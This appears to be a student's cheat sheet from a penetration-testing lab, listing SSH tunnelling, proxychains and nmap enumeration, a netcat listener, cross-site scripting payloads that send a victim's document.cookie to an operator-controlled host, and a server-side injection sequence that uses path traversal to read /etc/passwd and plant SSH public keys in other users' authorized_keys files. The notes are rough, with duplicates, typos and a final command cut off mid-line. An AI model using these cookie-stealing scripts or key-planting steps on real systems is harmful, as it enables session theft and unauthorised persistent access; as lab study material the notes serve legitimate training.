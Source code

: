 # Tunnels
ssh student@10.50.39.150 -L 10300:192.168.28.120:4242
ssh student@localhost -p 10300 -D 9050
# Exploiting Vulnerabilities
```shell
#python to find ips that are online
for i in {1..254}; do (ping -c 1 192.168.150.$i | grep "bytes from" &); done | awk '{print $4}' | cut -d: -f1 > ips2.txt
#now create local file of ips(copy/paste)
proxychains nmap -iL ips.txt
#use to scan the ips you grabbed
proxychains nmap -iL ips.txt
#copy over ips file to your ops station ot proxy chains it
proxychains nmap 192.168.28.96/27 -Pn --script banner.nse
#begin your different nmap scans for further emueration
nmap -p 445 --script smb-os-discovery 192.168.28.5
nmap 10.50.42.159 -Pn -p 80 --script http-enum.nse
nmap 10.50.42.159 -Pn -p 80 --script http-robots.txt.nse
#net cat
nc -lvknp #this will allows connections to connectio
ssh student@10.50.39.150 -L 10300:192.168.28.120:4242
ssh student@localhost -p 10300 -D 9050
#location of all nmap scripts
/usr/share/namp/scripts$ : nmap 
#pull out all directories in browser 
#interact with buttons
#Javascript to steal cookie
<script>document.location="http://OP-Station-IP:OPS-PORT/?username=" + document.cookie;</script>
<script>window.location.href="http://website/?"+document.cookie;</script>
<script>write.location.href="http://10.50.20.97"</script>
#put file into server, adds it. Now that code is ran on browser
```
# Server Side injections
```shell
#enumerate the server, view directories
ls ; pwd 
whoami
#see whats in the home directory to see users
ls -shla ../../../../../../home/comrade/.ssh
#make .ssh directoires in the users folders
mkdir ../../../../../../home/comrade/.ssh/
ls the "www.html" directory
cat /etc/passwd | grep www-data
mkdir ../../../../../var/www/.ssh
ls -latr & netstat -rn
|| ifconfig
mkdir /var/www/.ssh # make ssh directory in the ww-datas user folder
ssh-keygen #this will ask o generate file. LEAVE DEFAULT
cd .ssh
cat id_rsa.pub # everything in this file is your ssh key
#use ssh keys from machine to authenticate
echo "RSA key" >> /var/www/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDveZOWeA/wkiIal9Itl+4CV85j8lG5afCf6mCQ1NaXknhhoWjtQD1fTC2jXhTgkl5nh+54G1OzxEpuWe8a7mijkeiUWqQgIBqOvlv0Akx8Z7LUWP5cm1qx5v6DktGn2KmDucdAA+aEZk6oF6q5btPF14C2ShLDdOJT9R2V9HUciEKb9aLyZ28niIja8YWeEPl/UQWTHRijg2usXV693WwZRfvXWRWmEGz1wusNISntG+5Pk3WFg6SIeikQuVwgppjxftil2zHxlWyyZUdPC7pN1R8leXhF7Vrpw2C5xRcRxf0AFO/1JjLu9jfVaK+1+Jm6LHkuN/K0zT0qmpuT0KBr" >> ../../../../../../var/www/.ssh/authorized_keys
ls -shla ../../../../../../home/comrade/.ssh/authorized_keys
 #now you can ssh in as www-data
 ssh www-data@<ip>
 ```

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDveZOWeA/wkiIal9Itl+4CV85j8lG5afCf6mCQ1NaXknhhoWjtQD1fTC2jXhTgkl5nh+54G1OzxEpuWe8a7mijkeiUWqQgIBqOvlv0Akx8Z7LUWP5cm1qx5v6DktGn2KmDucdAA+aEZk6oF6q5btPF14C2ShLDdOJT9R2V9HUciEKb9aLyZ28niIja8YWeEPl/UQWTHRijg2usXV693WwZRfvXWRWmEGz1wusNISntG+5Pk3WFg6SIeikQuVwgppjxftil2zHxlWyyZUdPC7pN1R8leXhF7Vrpw2C5xRcRxf0AFO/1JjLu9jfVaK+1+Jm6LHkuN/K0zT0qmpuT0KBr" >> ../../../../../../home/billybob/.ssh/authorized_keys


echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgP2uXYcb+W40AxfGwjsfFlA6jR1/zL711bXQAjvAuEv5L6tNVkdDyNNdD66Q8Jwsh8DzLPDqeOTmQr7FDMAO5sCD7z+R+kEpvoVzBsgKXL22l2ipxGtCxJzhI1HT16fYB1BZPqmZpJylBdym3KN0yZvgFMs7B0jb9SFkh/+Jp1OxzohX88Xc2j+Dk1URkY0xZOTvOgYafFjbFINaeuVMqb+YeEyj9jxxNFo69F4selrftFmaf5AupSiW+P8GjOReArWBxEgvcLqshl+gTuf817jxb2terzW8f/qVK09XsepMPPZ5elfUqSzK1N3a4sTu1+0EsGALGjB/iSXbeCmcD comrade@extranet.site.donovia >> ../../../../../